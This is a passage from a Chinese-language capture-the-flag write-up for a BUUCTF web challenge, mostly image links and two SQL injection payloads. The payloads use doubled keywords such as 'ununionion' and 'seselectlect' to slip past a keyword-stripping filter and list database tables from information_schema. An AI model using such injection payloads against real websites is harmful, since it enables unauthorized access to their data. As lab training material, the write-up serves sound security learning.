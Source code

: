 <img src="/images/buuctf-web/image-20221014222633460-166704781973440.png" alt="image-20221014222633460" style="zoom:67%;" /><img src="/images/buuctf-web/image-20221014222649635.png" alt="image-20221014222649635" style="zoom:67%;" />

那么对`union`和`select`使用同样的方法来绕过:

```
1' ununionion seselectlect 1,2,group_concat(TABLE_NAME) frfromom information_schema.tables whwhereere table_schema=database()#
```

<img src="/images/buuctf-web/image-20221014221556384.png" alt="image-20221014221556384" style="zoom:67%;" />

这里`imformation`中的`or`也被过滤了...

```
1' ununionion seselectlect 1,2,group_concat(TABLE_NAME) frfromom infoorrmation_schema.tables whwhereere table_schema=database()#
```
